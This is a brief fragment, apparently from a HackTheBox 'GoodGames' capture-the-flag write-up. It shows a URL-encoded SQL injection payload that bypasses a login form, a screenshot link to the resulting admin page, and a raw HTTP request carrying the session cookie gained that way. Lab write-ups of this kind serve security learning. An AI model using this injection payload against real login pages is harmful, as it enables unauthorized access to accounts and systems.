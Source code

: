  ```http
 email=%27+or+1%3D1--+-&password=
 ```

![admin](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/GoodGames/admin.png?raw=true)

```http
GET /profile HTTP/1.1
Host: 10.10.11.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=.eJw1yz0KgDAMBtC7fHMRXDN5E4kkjYX-QNNO4t3t4v7egzN29RsUObsGaOGUQWApqR7WmhgX9e0eFwKSgPaA3MxUUgWNPlearr0u9j-8Hz1GHgw.YvnWQQ.F7k5U05YRrNwVDXbh3CkIFNPWRM

Upgrade-Insecure-Requests: 1
```
